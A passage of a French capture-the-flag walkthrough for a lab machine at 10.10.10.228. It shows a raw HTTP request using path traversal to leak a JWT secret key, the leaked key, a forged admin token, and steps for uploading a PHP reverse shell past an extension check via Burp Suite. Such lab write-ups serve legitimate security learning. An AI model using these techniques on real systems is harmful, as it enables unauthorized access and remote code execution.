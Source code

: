 Obtenez la secret key en envoyant une demande de request :


```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 34


book=../portal/authController.php&method=1
```

Nous avons obtenu la secret key en réponse:


```sh
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
```

Avec la secret key que nous venons de trouver, nous allons créer un nouveau ``jeton jwt`` et nous obtenons le jeton suivant:


```sh
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
```


Maintenant, allez-vous créer un compte, lorsque vous vous connectez, F12, puis Stockage, et actualisez, cela ressemble à ceci:


![hack](https://media.discordapp.net/attachments/490431433559506954/834032042416013392/unknown.png)


Nous pouvons voir que nous avons accès au ``Panel Admin`` (paul)


![hack](https://media.discordapp.net/attachments/490431433559506954/834032319269437440/unknown.png)


Maintenant, allez dans la gestion des fichiers et téléchargez un script php dans un fichier (peut-être comme reverseshell.html) et interceptez avec ``burpsuite`` et changez le ``.zip`` en bas en .php si vous ne trouvez pas le titre et l'auteur dans un fichier valide livre de fichiers. Comme le bouton "télécharger" ne fonctionne pas, affichez la page suivante pour créer vous-même le package de demande de téléchargement de fichier.


```sh
http://10.10.10.228/portal/assets/js/files.js
```
